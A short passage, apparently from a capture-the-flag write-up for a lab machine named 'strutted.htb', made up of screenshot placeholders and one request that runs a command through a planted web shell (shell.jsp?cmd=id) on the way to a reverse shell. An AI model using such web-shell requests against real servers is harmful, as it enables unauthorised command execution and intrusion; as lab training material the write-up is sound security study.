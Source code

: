 ![](images/Pasted%20image%2020250724152258.png)

Let's exploit it to get the reverse shell
```
http://strutted.htb/shell.jsp?action=cmd&cmd=id
```
![](images/Pasted%20image%2020250724152445.png)
